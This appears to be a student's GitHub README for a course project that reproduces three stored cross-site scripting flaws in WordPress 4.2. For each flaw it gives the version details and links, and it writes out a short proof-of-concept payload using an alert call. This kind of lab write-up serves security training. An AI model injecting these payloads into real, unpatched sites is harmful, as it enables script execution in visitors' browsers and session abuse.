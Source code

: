 # Project 7 - WordPress Pentesting

Time spent: **5** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. (Required) Vulnerability Name or ID
  - [x] Summary: XSS (Authenticated Cross-Site Scripting)
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.6
  - [x] GIF Walkthrough: ![XSS1](https://user-images.githubusercontent.com/25422131/55770491-82d00600-5a52-11e9-86fc-d3f83d93c5a9.gif)
  - [x] Steps to recreate: Make a post and then enter the following in the reply:
    
    `http://www.test.com/wp-admin/customize.php?theme=<svg onload=alert(1)>`
  - [x] Affected source code:
    - [Link 1](https://github.com/WordPress/WordPress/blob/master/wp-admin/customize.php)
2. (Required) Vulnerability Name or ID
  - [x] Summary: 
    - Vulnerability types:Cross-Site Scripting (XSS)
    - Tested in version:4.2
    - Fixed in version: 4.2.3
  - [x] GIF Walkthrough: 
  - [x] Steps to recreate: Make a post and in the body of the post enter the following:
  
  `<a href="[caption code=">]</a><a title=" onmouseover=alert('Exploit2!') ">here</a>`
  - [x] Affected source code:
   - [WPScan Vulnerability Database Vulnerability #7945](https://wpvulndb.com/vulnerabilities/7945)
   - [Letter by Jouko Pynnönen Regarding the Discovery of the Vulnerability](https://packetstormsecurity.com/files/131644/)

3. (Required) Vulnerability Name or ID
  - [x] Summary: 
    - Vulnerability types:CVE-2015-5734
    - Tested in version: 4.2
    - Fixed in version: 4.2.4
  - [x] GIF Walkthrough: 
  - [x] Steps to recreate: Make a post and type the following as a reply:
  
  `<a href='/wp-admin/' title="" style="position:absolute;top:0;width:10%;height:100%;display:block;" onmouseover=alert(3)//'>TEST</a>`
  - [x] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [2019] [Harsh Patel]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
